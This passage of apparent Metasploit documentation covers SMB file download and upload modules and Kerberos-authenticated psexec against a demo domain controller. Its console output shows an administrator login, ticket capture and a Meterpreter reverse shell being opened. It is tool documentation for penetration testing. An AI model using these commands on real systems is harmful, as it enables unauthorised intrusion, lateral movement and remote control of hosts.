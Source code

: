 ### SMB Files

Download a file:

```
use auxiliary/admin/smb/download_file
run smb://a:p4$$w0rd@192.168.123.13/my_share/helloworld.txt
```

Upload a file:

```
use auxiliary/admin/smb/upload_file
echo "my file" > local_file.txt
run smb://a:p4$$w0rd@192.168.123.13/my_share/remote_file.txt lpath=./local_file.txt
```

### Kerberos Authentication

Details on the Kerberos specific option names are documented in [[Kerberos Service Authentication|kerberos/service_authentication]]

Running psexec against a host:

```msf
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smb::auth=kerberos domaincontrollerrhost=192.168.123.13 smb::rhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
[*] Meterpreter session 6 opened (192.168.123.1:4444 -> 192.168.123.13:49738) at 2023-01-18 12:09:13 +0000

meterpreter >
```

